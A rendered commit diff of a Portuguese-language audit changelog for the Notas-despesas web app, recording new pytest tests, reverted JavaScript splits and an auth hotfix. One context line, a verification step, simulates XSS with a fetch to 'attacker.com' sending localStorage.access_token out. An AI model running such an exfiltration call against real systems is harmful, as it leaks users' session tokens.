

Before and after one commit to guiolindo/Notas-despesas, a Markdown page: docs/CHANGELOG-audit-2026-06.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(changelog): record reverts, hotfix, pytest suite + bugs fixed
Adiciona ao CHANGELOG:
- 0ef8e45 (pytest business rules — 4 testes P1-3/P1-9)
- 2b3c105 e c6e67aa marcados como REVERTED com explicacao
- d6f0e33 + d86308b (reverts pelo Codex como hotfix de regressao)
- 6481bee (meu hotfix de Auth — migracao defensiva + ensureToken sempre)
- 863007d (suite pytest + 2 bugs P0-1 descobertos pelos testes)

Mostra que o P2-1 (app.js split) foi pausado por regressao em producao
e sera retomado em fase futura com smoke test runtime obrigatorio.

Estado atual da auditoria HTML curada:
- P0: 2/2 (100%)
- P1: 8/9 (89%, P1-4 cancelado como overkill agora)
- P2: 8/15 — P2-1 e P2-7 foram reavaliados, demais entregues.

```diff
--- a/docs/CHANGELOG-audit-2026-06.md
+++ b/docs/CHANGELOG-audit-2026-06.md
@@ -237,6 +259,62 @@ Range coberto: `26d5574..HEAD` (todos os commits desta fase de auditoria).
 4. Abrir nova aba `/verify/{id}` → `window.Auth.hasSessionHint()` → `true` → `ensureToken` → reveal dos dados.
 5. Logout → `Auth.clear()` → sessionStorage limpa, token zerado.
 6. Simular XSS via console: `fetch('https://attacker.com', { body: localStorage.access_token })` → body fica `undefined` (não tem mais lá).
+
+---
+
+## 0ef8e45 — test: business rules smoke (P1-3 + P1-9)
+
+**Achados**: cobertura adicional dos testes pytest.
+
+**Arquivos**: `tests/test_business_rules.py` — novo.
+
+**Risco**: zero (apenas testes).
+
+**Coberto**:
+- P1-9: gestor unavailable sem substituto bloqueia submit; com substituto roteia direto pro substituto.
+- P1-3: duplicate detection no submit + bypass via `confirm_duplicate=true`.
+
+**Como rodar**: `python -m pytest tests/ -q` → 21 passed.
+
+---
+
+## 2b3c105 — refactor(js): split format utilities (Codex) → REVERTED em `d6f0e33`
+
+**Status**: revertido. Causou regressao percebida pelo usuario ("botoes nao clicam").
+Suspeita: combinacao com o split do P2-1 e o token in-memory em F5 antigo gerou um cenario onde a UI parecia morta. Codex reverteu junto ao password.js como hotfix de seguranca. Split sera retomado em fase futura com smoke test runtime obrigatorio.
+
+---
+
+## c6e67aa — refactor(js): split password recovery (Codex) → REVERTED em `d86308b`
+
+**Status**: revertido junto ao 2b3c105 acima.
+
+---
+
+## d6f0e33 + d86308b — Reverts of JS splits (Codex)
+
+**Achados**: hotfix de regressao no frontend.
+
+**Arquivos**: `app/static/js/format.js` e `password.js` removidos; templates voltam a carregar so `app.js`.
+
+**Risco**: zero. Restaura estado funcional pre-split.
+
+---
+
+## 6481bee — hotfix(auth): rescue users logged in before P1-1
+
+**Achados**: regressao de sessao antiga apos P1-1.
+
+**Arquivos**: `app/static/js/app.js` — Auth helper.
+
+**Risco**: baixo. Acrescenta migracao defensiva + aumenta resiliencia do apiFetch.
+
+**O que mudou**:
+1. Auth helper, ao carregar, limpa `localStorage.access_token` legacy (pre-P1-1) e marca `sessionStorage.auth_has_session` se `localStorage.user` existe. Cobre sessoes que estavam logadas antes do deploy do token-in-memory.
+2. `apiFetch` agora sempre chama `Auth.ensureToken()` quando nao tem token, sem depender do hint. Custo: 1 chamada `/refresh` extra para anonimo real; beneficio: cobre cenario onde o hint foi perdido (limpeza de cache, sessao em incognito).
+3. `Auth.setUser()` tambem marca o hint — manter consistencia em todo ciclo.
+
+**Como testar**: usuario que estava logado antes do P1-1 deve, apos hard reload, voltar a clicar nos botoes normalmente.
 
 ---
 
```
Also changed, not shown: other parts of docs/CHANGELOG-audit-2026-06.md (+22 -0 lines).
